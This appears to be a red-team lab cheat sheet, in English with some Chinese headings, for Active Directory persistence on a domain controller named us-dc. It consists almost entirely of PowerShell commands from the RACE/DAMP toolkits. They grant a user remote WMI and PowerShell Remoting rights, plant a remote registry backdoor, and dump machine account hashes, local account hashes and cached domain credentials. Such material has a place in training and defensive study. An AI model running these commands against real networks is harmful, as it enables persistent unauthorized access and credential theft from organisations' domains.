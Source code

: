 在本地机器为student1设置
```
Set-RemoteWMI -SamAccountName studentuser1 –Verbose
```

On remote machine for studentuser1 without explicit credentials:
```
Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -Verbose
```

On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
```
Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -Credential Administrator –namespace 'root\cimv2' -Verbose
```

On remote machine remove permissions:
```
Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -Remove
```

## PowerShell Remoting

使用RACE toolkit

On local machine for studentuser1:
```
Set-RemotePSRemoting -SamAccountName studentuser1 –Verbose
```

On remote machine for studentuser1 without credentials:
```
Set-RemotePSRemoting -SamAccountName studentuser1 -ComputerName us-dc -Verbose
```

On remote machine, remove the permissions:
```
Set-RemotePSRemoting -SamAccountName studentuser1 -ComputerName us-dc -Remove
```

## Remote Registry

Using RACE or DAMP toolkit, with admin privs on remote machine
```
Add-RemoteRegBackdoor -ComputerName us-dc -Trustee studentuser1 -Verbose
```

As studentuser1, retrieve machine account hash
```
Get-RemoteMachineAccountHash -ComputerName us-dc -Verbose
```

Retrieve local account hash
```
Get-RemoteLocalAccountHash -ComputerName us-dc -Verbose
```

Retrieve domain cached credentials:
```
Get-RemoteCachedCredential -ComputerName us-dc -Verbose
```

